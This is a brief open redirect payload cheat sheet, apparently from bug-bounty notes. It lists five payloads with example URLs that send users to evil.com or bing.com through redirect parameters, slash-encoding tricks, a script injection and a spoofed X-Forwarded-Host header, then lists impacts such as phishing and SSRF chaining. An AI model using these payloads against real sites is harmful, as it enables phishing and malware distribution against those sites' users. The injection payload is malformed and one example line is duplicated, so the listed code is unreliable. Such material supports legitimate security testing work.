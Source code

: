 # open redirect


1 - payload: {evil.com} 


===>>> example: site.com/.../redirect_uri=evil.com/...


2 - payload: {///%5Cevil.com/} 


===>>> example: site.com///%5Cevil.com/ 


3 - payload:  </script>window.location"http://evil.com"</script>


===>>> example: search box : injection


4 - payload: {evil.com}


===>>> example: ===>>> example: site.com/.../returnurl=http://evil.com


5 - payload: {bing.com}


===>>> example: ===>>> url ===>>> X-forwarded-host: bing.com


## impact:
- an attacker can do phishing with legitimate users
-  they can also chain this with SSRF
-  reputation loss, money loss
-  malware distribution
  
